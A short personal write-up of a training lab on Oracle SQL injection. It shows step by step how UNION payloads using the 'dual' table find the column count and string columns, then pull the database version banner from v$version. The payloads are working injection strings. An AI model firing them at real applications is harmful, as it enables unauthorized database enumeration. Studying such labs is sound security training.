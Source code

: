 # Oracle querying database type and version

#WRITEUP
#DATABASEENUM

The lab mentions it's an `UNION` attack so following the [[Methodology UNION attacks]] , intercept the request and insert the payload to find out the number of columns that the result set has.

	Note: I looked for a hint since the regular UNION payloads didn't work it turns out that in Oracle databases the SELECT keyword must have a table to select FROM, in this case I used the 'dual' built-in table.

#SQLiPAYLOAD 
```SQL
' UNION SELECT NULL,NULL FROM dual--
```

![[Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/number of columns.png]]

The result set has two columns now find out which can hold string data.

![[Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/string data.png]]

#SQLiPAYLOAD 
```SQL
' UNION SELECT 'a',NULL FROM dual--

' UNION SELECT NULL,'a' FROM dual--
```

Both columns can hold string data. Let's inject the payload to obtain the database banner.


![[Attacks/Enumerating the database/labs/SQL injection attack, querying the database type and version on Oracle/images/solved.png]]

#SQLiPAYLOAD 
```SQL
' UNION SELECT banner,NULL FROM v$version--
```
